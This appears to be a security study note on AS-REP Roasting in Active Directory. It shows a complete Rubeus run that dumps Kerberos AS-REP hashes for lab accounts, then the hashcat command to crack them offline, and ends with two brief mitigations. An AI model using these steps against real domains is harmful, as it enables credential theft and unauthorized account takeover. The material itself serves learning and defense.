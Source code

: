 # AS-REP Roasting w/ Rubeus
- AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled
- `pre-authentication disabled` or `do not require Kerberos preauthentication`

![Alt text](<../../Images/AS-REP Roasting.png>)

## AS-REP Roasting Overview
- During pre-authentication, the users hash will be used to encrypt a timestamp that the DC will attempt to decrypt to validate that the right hash is being used
- After validating the timestamp, the KDC will then issue a TGT for user
- If `pre-authentication` is disabled, you can request any authentication data for any user
- KDC will return an encrypted TGT that can be cracked offline
- KDC skips the step of validating that the user is validated (say who they say they are)

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _                       
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8422:23f8:a610:8a98%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:37C263DF50A998726A1781DD74E796EA$0D29632069B3
      EA626EE0BD352E1AAABABDAC07334819CA8D466CF0D593AAD15681509532189B919314F95923DAE9
      450D0C7B96EE6C0DE9023DD82488924CA1A99BAE17EA7707134BC1A3CD084479F1B76D02E60855D9
      E9CAEACBC77691A906A80712F158BD71A3295E7739A99BFE4E3DD0360C39C10BD928D0DD0F0267F5
      A078C1839F64C0FEF5B35CF1036CBA7C7C83D7587B71CEABCC96E03B2E8A07631CA5CD26DAD65AD7
      5E8EE81A25BA25F841C53812E6307963DE716664B84E1493E1311A3951700DEC2C4F019B9B27F93E
      276F16BFFDA6FEF14BDBB3446250285846A06FDD9D0AB51AB5396FA98ED23A90FF3A0CE5FC01

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::8422:23f8:a610:8a98%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:997665FED2113BAB00EDFF29BF674DA5$42037DA28E43B
      D332CC243A288422C53E4D794569635BB74FC489EE9B541318F848F497089DF462A5475E44D8721C
      0B688A056D09FF324906C32460AC0CC7FEF4748F6E0224CA0D29896239FDC8089E6643C7DA351FF0
      7334867D0C06CEC093F17879A3C29912F9DA76CA8C8604FD856DCA0C050C902976CE44155B7C1857
      4B9AB3C798E359245631D7B92EA9B30E22D92A1699EE140F6319C93678FF8EF5106644FD712563AF
      8830C1C425FEA7A5B5E3D0B0E8EDFBF81ADD4B7525177B0AF2FE8EED61197986127A565CD9582FC1
      9356B6BE6C01962596F47DE5220D70684400311A8F2C4E41654782563A5276DAB4B6F6097E4</pre>

## Crack the hash using Hashcat
- Insert 23$ after krb5asrep$

<pre>hashcat -m 18200 hash.txt passwordlist.txt</pre>

## AS-REP Roasting Mitigations
- Have a strong password policy
- Don't turn off Kerberos pre-authentication unless necessary